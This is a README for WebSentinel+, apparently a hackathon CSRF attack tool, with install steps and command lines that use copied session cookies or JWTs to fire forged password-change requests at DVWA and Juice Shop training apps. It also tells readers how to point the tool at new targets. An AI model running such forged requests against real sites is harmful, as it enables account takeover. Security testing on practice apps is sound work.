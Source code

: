 # 📖 README.md (Final Polished Version)

```markdown
# WebSentinel+ — CSRF Attack Suite

## 🚀 Overview
WebSentinel+ is a **Cross-Site Request Forgery (CSRF) attack suite** developed for the **CTS Cybersecurity Hackathon (NPN Recruitment)**.

Unlike basic scanners that only check for missing tokens, WebSentinel+:
- Launches **all major CSRF attack vectors** automatically.
- Works on both **cookie-based apps (e.g., DVWA)** and **modern JWT/header-based apps (e.g., Juice Shop)**.
- Auto-generates **timestamped reports (HTML, JSON, cURL repro)**.
- Differentiates between:
  - ✅ **Exploitable apps** (DVWA → vulnerable to CSRF).  
  - 🛡️ **Secure-by-design apps** (Juice Shop → JWT → CSRF not applicable).

This makes WebSentinel+ both a **red-team tool** and a **compliance checker**, delivering enterprise-ready results.

---

## 🌟 Features & Wow Factor
- **Full CSRF attack simulation**: img, script, iframe, meta refresh, link, noreferrer, form post, fetch, xhr, multipart, method override, cookie-refresh.
- **Universal coverage**:  
  - Exploits cookie-based apps (shows ✅ exploited).  
  - Recognizes JWT/header apps where CSRF doesn’t apply (shows 🛡️ N/A).  
- **Professional reporting**: HTML/JSON outputs with exploited vectors and cURL reproduction commands.  
- **Enterprise readiness**: Timestamped logs, reproducible results, scalable design.  

> Judges see not just detection, but **true exploitation + validation**. No false positives.

---

## 📂 Project Structure
```

websentinel-csrf/

├── auto\_run.py          # CLI wrapper for quick scans

├── csrf\_suite\_cli.py    # Core engine (attack + reporting)

├── requirements.txt     # Dependencies

├── templates/           # Optional HTML templates

└── reports/             # Generated reports (HTML/JSON/cURL)

````

---

## ⚙️ Installation

```bash
git clone https://github.com/Nerangen/b-secure-cts.git
cd b-secure-cts
git checkout csrf
pip3 install -r requirements.txt
python3 -m playwright install chromium
````

---

## 🧪 Usage

### 🔐 DVWA (Cookie-based, vulnerable)

1. Run DVWA at `http://localhost:8080`.
2. Login → Security Level = **Low**.
3. Copy `PHPSESSID` from DevTools → Cookies.
4. Run:

```bash
set +H   # disable history expansion

python3 auto_run.py \
  --base http://localhost:8080 \
  --cookie "PHPSESSID=<PASTE>" \
  --cookies "security=low" \
  --add-post "http://localhost:8080/vulnerabilities/csrf/ password_new=test123!&password_conf=test123!&Change=Change" \
  --body-format form \
  --noreferrer \
  --exploits-only
```

✅ Report shows multiple **exploited vectors** (DVWA is vulnerable).

---

### 🛡️ Juice Shop (JWT-based, secure)

1. Run `https://juice-shop.herokuapp.com`.
2. Login → DevTools → Network → copy `Authorization: Bearer <JWT>`.
3. Export JWT and password:

```bash
export JWT='<paste-long-jwt>'
export CUR='<your-current-password>'
```

4. Run:

```bash
python3 auto_run.py \
  --base https://juice-shop.herokuapp.com \
  --auth-header "Authorization: Bearer $JWT" \
  --add-post "https://juice-shop.herokuapp.com/rest/user/change-password current=$CUR&new=Attacker123!&repeat=Attacker123!" \
  --body-format json \
  --noreferrer \
  --exploits-only
```

🛡️ Report shows **“Not applicable (JWT/header-based auth)”** (correct, no CSRF possible).

---

## 📊 Viewing Reports

Reports are saved in `reports/` with domain + timestamp.

Example:

```
reports/localhost_csrf_2025-08-30_12-30-01.html
reports/juice-shop.herokuapp.com_csrf_2025-08-30_12-35-44.json
reports/juice-shop.herokuapp.com_csrf_2025-08-30_12-35-44_curl.txt
```

View in browser:

```bash
python3 -m http.server 8000 --directory reports
# then open http://localhost:8000/
```

---

## 🛠️ Modifying for New Targets

* Use `--cookie` / `--cookies` for cookie-based apps.
* Use `--auth-header` for JWT/header apps.
* Supply one or more `--add-post` endpoints for state-changing actions (password reset, transfer, etc.).
* Set `--body-format form` or `--body-format json` depending on API.
* Add multiple `--add-post` for multiple actions.

---

## 👥 Team Workflow

* Clone repo:

```bash
git clone https://github.com/Nerangen/b-secure-cts.git
cd b-secure-cts
git checkout csrf
```

* Each member → work in their branch:

```bash
git checkout -b xss-module
git push origin xss-module
```

* Merge into `csrf` for integration.

---

## 🏆 Hackathon Demo Flow

1. **Run on DVWA** → report shows ✅ exploited CSRF vectors.
2. **Run on Juice Shop** → report shows 🛡️ N/A (secure design).
3. **Explain**:

   * “Our tool doesn’t just detect CSRF — it simulates every vector.”
   * “It exploits when possible, and avoids false positives when not applicable.”
   * “This dual mode (exploit + compliance) makes it enterprise-ready.”

---
````
